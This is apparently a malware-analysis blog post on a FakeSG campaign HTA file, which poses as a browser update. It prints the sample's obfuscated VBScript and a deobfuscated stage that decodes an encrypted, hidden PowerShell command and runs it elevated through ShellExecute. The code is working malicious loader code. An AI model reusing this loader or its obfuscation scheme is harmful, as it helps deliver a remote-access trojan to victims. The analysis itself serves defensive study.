 ```yaml
---
layout: post
title:  "Analyzing FakeSG Malware Campaign Sample"
date:   2023-09-12 00:00:00 +0000
categories: malware
---
```


FakeSG is an ongoing malware campaign (as of 12 Sep 2023). The campaign aims to compromise websites, which imitate the victim's browser update page - prompting the user to install and execute a malicious file.


### 1. Campaign
The FakeSG campaign is known for its heavy obfuscation and payload delivery tactics - opting to HTML Applications `(.hta)` files to ultimately deliver the [NetSupport Manager RAT](https://malpedia.caad.fkie.fraunhofer.de/details/win.netsupportmanager_rat). [(Source)] (https://www.pcrisk.com/removal-guides/27315-fakesg-malware).

In this blog entry, we will analyze a `.hta` instance from the campaign, pulled off [MalwareBazaar](https://bazaar.abuse.ch/sample/4a9f42167f399abfbb42a5ee4d52922eb3f7f1ce88d23824f01d13e50609b8b9/)


<br>
### 2. Obfuscation
Here's a snippet of the embedded VBScript in the `.hta` document. The obfuscation consists of 3 main parts.

A brief explanation of VBScript syntax:
+ `:` separates the next command, like `;` in most other languages.
+ `=` denotes variable assignment.
+ `&H` denotes a hexadecimal number. (`&H10` equals decimal 16).
+ `ChrW()` converts decimal numbers into unicode characters.
+ `&` concatenates strings together.

<br>
{% highlight vb %}
<script language="vBsCrIPt">

a70=574 - &H1F8:a117=872 - &H2F3:a110=932 - &H336:a99=711 - &H264:a116=679 - &H233:a105=980 - &H36B:a111=255 - &H90:a110=582 - &H1D8:a32=390 - &H166:a66=684 - &H26A:a99=926 - &H33B:a100=642 - &H21E:a40=925 - &H375:a66=955 - &H379:a121=707 - &H24A:a86=809 - &H2D3:a97=1071 - &H3CE:a108=814 - &H2C2:a32=965 - &H3A5:a71=269 - &HC6:a68=183 - &H73:a66=258 - &HC0:a41=307 - &H10A:a13=994 - &H3D5:a10=241 - &HE7:a32=633 - &H259:a32=320 - &H120:a32=815 - &H30F:a32=265 - &HE9:a32=530 - &H1F2:a32=964 - &H3A4:a32=571 - &H21B:a32=932 - &H384:a32=614 - &H246:a32=320 - &H120:a32=605 - &H23D:a32=394 - &H16A:a32=334 - &H12E:a32=980 - &H3B4:a32=598 - &H236:a32=293 - &H105:a32=874 - &H34A:a32=452 - &H1A4:a32=764 - &H2DC:a68=669 - &H259:a105=755 - &H28A:a109=1095 - &H3DA:a32=840 - &H328:a120=335 - &HD7:a100=585 - &H1E5:a113=1018 - &H389:a13=492 - &H1DF:a10=683 - &H2A1:a32=758 - &H2D6:a32=619 - &H24B:a32=443 - &H19B:a32=620 - &H24C:a32=871 - &H347:a32=513 - &H1E1:a32=992 - &H3C0:a32=719 - &
...
...
res =  ChrW ( a70 ) & ChrW ( a117 ) & ChrW ( a110 ) & ChrW ( a99 ) & ChrW ( a116 ) & ChrW ( a105 ) & ChrW ( a111 ) & ChrW ( a110 ) & ChrW ( a32 ) & ChrW ( a66 ) & ChrW ( a99 ) & ChrW ( a100 ) & ChrW ( a40 ) & ChrW ( a66 ) & ChrW ( a121 ) & ChrW ( a86 ) & ChrW ( a97 ) & ChrW ( a108 ) & ChrW ( a32 ) & ChrW ( a71 ) & ChrW ( a68 ) & ChrW ( a66 ) & ChrW ( a41 ) & ChrW ( a13 ) & ChrW ( a10 ) & ChrW ( a32 ) & ChrW ( a32 ) & ChrW ( a32 ) & ChrW ( a32 ) & ChrW ( a32 ) & ChrW ( a32 ) & ChrW ( a32 ) & ChrW ( a32 ) & ChrW ( a32 ) & ChrW ( a32 ) & ChrW ( a32 ) & ChrW ( a32 ) & ChrW ( a32 ) & ChrW ( a32 ) & ChrW ( a32 ) & ChrW ( a32 ) & ChrW ( a32 ) & ChrW ( a32 ) & ChrW ( a32 ) & ChrW ( a68 ) & ChrW ( a105 ) & ChrW ( a109 ) & ChrW ( a32 ) & ChrW ( a120 ) & ChrW ( a100 ) & ChrW ( a113 ) & ChrW ( a13 ) & ChrW ( a10 ) & ChrW ( a32 ) & ChrW ( a32 ) & ChrW ( a32 ) & ChrW ( a32 ) & ChrW ( a32 ) & ChrW ( a32 ) & ChrW ( a32 ) & ChrW ( a32 ) & ChrW ( a32 ) & ChrW ( a32 ) & ChrW ( a32 ) & ChrW ( a32 ) & ChrW ( a32 ) & ChrW ( a32 ) & ChrW ( a32 ) & ChrW ( a32 ) & ChrW ( a32 ) & ChrW ( a32 ) & ChrW ( 
...
...
Execute Eval("Eval(""Eval(""""Eval(""""""""Eval(""""""""""""""""Eval(""""""""""""""""""""""""""""""""Eval(""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""Eval(""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""Eval(""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""Eval(""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""Eval
...
...

Close
</script>
{% endhighlight %}



<br>
### 3. Deobfuscation

We notice that a string is built on the `res` variable.

{% highlight vb %}
res =  ChrW ( a70 ) & ChrW ( a117 ) & ChrW ( a110 ) & ChrW ( a99 ) ...
{% endhighlight %}

<br>
To dynamically extract its contents, we add the line `document.write(res)` and run the malicious code. Then, we simply copy the value from the HTA window.

{% highlight powershell %}
res =  ChrW ( a70 ) & ChrW ( a117 ) & ChrW ( a110 ) & ChrW ( a99 ) ...
document.write(res)
{% endhighlight %}

<br>
Shown below is the value of `res` in plaintext. Long arrays and ShellExecute - looks pretty gnarly.

{% highlight vb %}

Function Bcd(ByVal GDB) 
    Dim xdq 
    Dim nHV 
    nHV = 608 
    Dim kBR 
    kBR = wHR(GDB) 
    If kBR = 7000 + 1204 Then 
        For Each xdq In GDB 
            Dim TMN 
            TMN = TMN & Chr(xdq - nHV) 
        Next 
    End If 
    Bcd = TMN 
End Function 

Function qSN() 
    Dim GDB 
    Dim DQJ 
    GDB = Array(640,653,677,728,709,707,725,724,713,719,718,688,719,716,713,707,729,640,693,718,690,709,723,724,722,713,707,724,709,708,640,691,724,705,722,724,653,688,722,719,707,709,723,723,640,647,707,717,708,654,709,728,709,647,640,653,695,713,718,708,719,727,691,724,729,716,709,640,712,713,708,708,709,718,640,653,673,722,711,725,717,709,718,724,684,713,723,724,640,731,655,707,640,720,719,727,709,722,723,712,709,716,716,654,709,728,709,640,644,715,678,728,688,682,640,669,640,647,673,673,673,673,673,673,673,673,673,673,673,673,673,673,673,673,673,673,673,673,673,674,664,722,717,697,660,710,680,720,706,664,712,709,714,683,656,698,677,665,713,659,724,697,705,677,716,686,721,662,661,661,714,723,674,726,693,720,681,682,678,680,687,718,657,725,707,661,716,689,714,660,674,709,657,716,660,665,692,691,721,725,730,711,664,694,665,676,680,724,693,724,675,722,685,708,655,698,684,726,687,698,661,686,715,711,678,720,722,715,690,710,658,693,705,679,665,729,680,720,708,712,724,722,676,730,720,690,682,679,676,713,675,705,691,662,673,717,683,713,728,651,712,707,694,688,716,696,710,716,714,729,718,676,686,684,727,730,660,688,693,722,714,717,659,655,691,708,719,722,663,708,706,659,710,713,698,709,721,711,711,724,697,689,657,718,698,682,656,688,726,676,692,706,664,696,661,712,665,697,721,718,678,714,716,727,719,674,718,657,683,721,717,660,728,690,716,691,665,720,676,675,659,709,651,721,661,684,710,705,677,716,716,727,697,691,659,710,676,674,656,673,673,727,683,688,681,655,729,685,687,730,663,729,714,722,694,729,720,718,686,713,685,678,674,712,696,693,698,719,685,691,713,651,719,728,665,676,713,686,714,683,710,710,698,720,727,683,725,687,685,662,661,682,688,694,688,656,696,707,722,682,707,694,664,683,687,687,720,682,711,682,707,683,676,679,665,726,698,659,675,691,725,706,675,684,678,683,684,723,680,657,677,684,695,716,692,663,729,661,689,684,651,684,720,723,659,662,676,697,695,677,707,663,713,679,730,663,705,727,716,697,722,691,710,659,678,728,698,696,712,721,691,719,726,720,674,659,715,677,721,717,697,692,727,692,651,656,709,718,697,689,717,708,689,685,660,730,717,720,665,696,656,729,719,693,729,684,673,674,715,657,725,716,681,678,728,681,662,710,676,687,698,726,688,691,657,687,665,687,662,728,679,723,686,662,678,682,662,723,664,696,712,656,696,709,724,691,660,710,706,661,709,681,722,713,695,657,728,678,686,685,680,709,711,723,674,690,661,709,684,656,651,697,711,677,689,665,718,709,663,657,720,729,676,677,692,689,683,715,655,712,684,690,709,674,695,688,716,677,662,673,705,678,719,684,660,708,728,658,696,661,728,715,662,691,729,727,708,695,673,696,724,656,681,721,729,695,728,685,707,710,730,719,709,675,651,685,658,708,719,679,692,724,680,651,729,691,730,719,709,658,730,692,727,718,655,720,674,719,728,719,692,662,694,686,677,676,695,686,663,674,721,682,730,716,697,709,688,687,655,713,713,716,712,697,680,678,696,718,697,713,707,675,688,678,722,715,712,710,663,693,651,723,728,660,683,691,682,718,727,718,720,722,713,686,708,725,680,692,694,711,698,721,679,686,658,723,651,710,695,682,714,658,673,729,730,665,675,713,685,720,707,722,710,724,691,655,689,723,679,705,725,724,651,729,712,698,656,705,675,696,692,657,688,723,665,692,691,719,712,658,692,658,665,680,690,693,693,726,680,711,698,689,727,680,680,695,677,676,686,705,665,673,657,715,675,716,684,721,680,707,684,665,663,683,722,680,662,689,656,694,724,677,697,727,688,660,716,710,692,680,690,657,698,691,655,712,689,694,680,689,676,664,676,685,712,665,696,716,730,684,676,712,690,705,709,673,660,715,657,710,728,686,684,661,724,709,681,727,696,717,659,680,720,657,727,678,691,722,714,718,721,658,662,682,709,725,678,718,664,660,726,661,674,708,684,689,692,726,693,723,708,691,710,683,675,706,719,674,726,698,661,711,677,682,684,723,709,708,720,690,729,730,709,660,684,727,713,695,687,682,714,712,720,718,711,719,658,659,718,706,687,692,711,711,664,661,697,720,712,721,698,690,679,665,681,682,690,690,724,715,683,730,656,710,690,655,661,686,692,657,711,684,686,683,717,664,663,687,730,693,713,727,723,714,705,696,685,651,712,679,691,693,722,715,709,708,683,656,658,725,688,714,730,664,681,674,656,659,716,673,674,727,690,723,658,722,711,709,695,698,710,714,693,712,694,656,651,697,710,717,657,686,681,665,687,689,708,690,659,695,721,705,674,680,705,678,694,692,707,690,730,679,730,657,675,692,676,716,686,662,730,651,705,714,651,697,727,709,658,682,689,681,723,687,665,658,661,660,694,696,659,661,681,686,727,662,715,727,676,723,655,680,696,716,661,727,673,655,714,724,730,710,710,663,683,677,712,678,690,727,662,715,710,692,712,693,655,692,658,684,714,692,682,675,705,665,655,675,707,687,722,724,726,708,727,694,697,663,722,656,677,659,656,689,674,693,727,714,691,724,728,728,698,706,694,690,691,693,677,691,698,698,714,682,682,662,728,658,685,686,727,674,675,710,662,665,728,673,676,684,688,716,685,726,651,714,710,679,689,684,683,692,706,689,686,683,721,676,724,723,694,682,717,718,723,723,697,685,708,679,695,714,712,725,655,659,715,689,678,713,686,728,687,698,698,695,711,690,729,693,680,718,730,715,716,725,692,685,714,710,680,709,661,717,686,679,678,663,711,720,681,687,697,662,656,678,681,677,687,705,711,710,714,695,692,679,677,718,686,661,709,715,655,680,725,730,683,678,723,712,707,690,656,721,651,689,710,728,706,698,689,697,656,656,678,697,665,725,691,692,727,688,684,717,665,716,724,657,729,664,655,722,691,694,697,728,674,692,711,681,658,723,707,678,730,707,687,718,685,686,718,728,693,691,693,708,710,709,683,727,691,655,716,726,686,721,715,710,685,663,674,709,691,695,715,690,656,682,720,719,708,724,725,691,729,729,685,712,658,663,729,680,728,720,697,726,727,659,685,695,681,655,705,655,684,716,659,698,693,728,723,696,725,720,657,693,730,686,658,695,692,660,674,686,657,706,676,711,690,659,677,659,664,717,696,661,730,663,709,659,682,665,727,709,722,692,665,726,698,678,688,677,721,729,675,728,691,706,659,721,692,681,707,709,697,655,655,728,719,692,679,675,659,664,686,656,674,722,677,677,720,657,693,683,660,685,717,709,710,694,690,715,665,689,669,669,647,667,644,681,679,698,705,716,695,640,669,640,647,697,656,682,721,694,659,682,716,708,677,728,691,706,696,694,716,694,718,682,679,689,694,720,717,689,718,712,685,690,694,682,727,692,659,686,688,706,717,694,662,707,659,681,669,647,667,644,688,705,676,705,695,682,714,694,640,669,640,686,709,727,653,687,706,714,709,707,724,640,647,691,729,723,724,709,717,654,691,709,707,725,722,713,724,729,654,675,722,729,720,724,719,711,722,705,720,712,729,654,673,709,723,685,705,718,705,711,709,708,647,667,644,688,705,676,705,695,682,714,694,654,685,719,708,709,640,669,640,699,691,729,723,724,709,717,654,691,709,707,725,722,713,724,729,654,675,722,729,720,724,719,711,722,705,720,712,729,654,675,713,720,712,709,722,685,719,708,709,701,666,666,677,675,674,667,644,688,705,676,705,695,682,714,694,654,688,705,708,708,713,718,711,640,669,640,699,691,729,723,724,709,717,654,691,709,707,725,722,713,724,729,654,675,722,729,720,724,719,711,722,705,720,712,729,654,688,705,708,708,713,718,711,685,719,708,709,701,666,666,698,709,722,719,723,667,644,688,705,676,705,695,682,714,694,654,674,716,719,707,715,691,713,730,709,640,669,640,657,658,664,667,644,688,705,676,705,695,682,714,694,654,683,709,729,691,713,730,709,640,669,640,658,661,662,667,644,688,705,676,705,695,682,714,694,654,683,709,729,640,669,640,699,691,729,723,724,709,717,654,675,719,718,726,709,722,724,701,666,666,678,722,719,717,674,705,723,709,662,660,691,724,722,713,718,711,648,644,681,679,698,705,716,695,649,667,644,722,696,715,729,714,640,669,640,699,691,729,723,724,709,717,654,675,719,718,726,709,722,724,701,666,666,678,722,719,717,674,705,723,709,662,660,691,724,722,713,718,711,648,644,715,678,728,688,682,649,667,644,730,727,681,717,708,687,695,684,640,669,640,644,722,696,715,729,714,699,656,654,654,657,661,701,667,644,688,705,676,705,695,682,714,694,654,681,694,640,669,640,644,730,727,681,717,708,687,695,684,667,644,725,684,726,716,709,721,680,709,728,640,669,640,644,688,705,676,705,695,682,714,694,654,675,722,709,705,724,709,676,709,707,722,729,720,724,719,722,648,649,667,644,719,725,673,697,681,688,714,720,730,640,669,640,644,725,684,726,716,709,721,680,709,728,654,692,722,705,718,723,710,719,722,717,678,713,718,705,716,674,716,719,707,715,648,644,722,696,715,729,714,652,640,657,662,652,640,644,722,696,715,729,714,654,684,709,718,711,724,712,640,653,640,657,662,649,667,644,688,705,676,705,695,682,714,694,654,676,713,723,720,719,723,709,648,649,667,644,718,707,692,692,673,718,640,669,640,686,709,727,653,687,706,714,709,707,724,640,691,729,723,724,709,717,654,681,687,654,685,709,717,719,722,729,691,724,722,709,705,717,648,640,652,640,644,719,725,673,697,681,688,714,720,730,640,649,667,644,727,684,687,709,673,722,698,640,669,640,686,709,727,653,687,706,714,709,707,724,640,691,729,723,724,709,717,654,681,687,654,685,709,717,719,722,729,691,724,722,709,705,717,667,644,710,715,715,697,684,712,718,687,730,640,669,640,686,709,727,653,687,706,714,709,707,724,640,691,729,723,724,709,717,654,681,687,654,675,719,717,720,722,709,723,723,713,719,718,654,679,730,713,720,691,724,722,709,705,717,640,644,718,707,692,692,673,718,652,640,648,699,681,687,654,675,719,717,720,722,709,723,723,713,719,718,654,675,719,717,720,722,709,723,723,713,719,718,685,719,708,709,701,666,666,676,709,707,719,717,720,722,709,723,723,649,667,644,710,715,715,697,684,712,718,687,730,654,675,719,720,729,692,719,648,640,644,727,684,687,709,673,722,698,640,649,667,644,710,715,715,697,684,712,718,687,730,654,675,716,719,723,709,648,649,667,644,718,707,692,692,673,718,654,675,716,719,723,709,648,649,667,699,706,729,724,709,699,701,701,640,644,691,697,708,712,687,714,728,640,669,640,644,727,684,687,709,673,722,698,654,692,719,673,722,722,705,729,648,649,667,644,721,712,697,728,709,714,717,640,669,640,699,691,729,723,724,709,717,654,692,709,728,724,654,677,718,707,719,708,713,718,711,701,666,666,693,692,678,664,654,679,709,724,691,724,722,713,718,711,648,644,691,697,708,712,687,714,728,649,667,644,721,712,697,728,709,714,717,640,732,640,720,719,727,709,722,723,712,709,716,716,640,653,640,733) 
    Dim thI 
    DQJ = Array(720,719,727,709,722,723,712,709,716,716,654,709,728,709) 
    thI = Bcd(GDB) 
    Set Mdq = RSv(Bcd(Array(691,712,709,716,716,654,673,720,720,716,713,707,705,724,713,719,718))) 
    LJD = Bcd(DQJ) 
    Mdq.ShellExecute LJD, thI,"","runas",0 self.close() 
End Function 

Function wHR(ByVal kBR) 
    wHR = VarType(kBR) 
End Function 

Function RSv(ByVal objectType) 
    Set RSv = CreateObject(objectType) 
End Function 

qSN() 

{% endhighlight %}
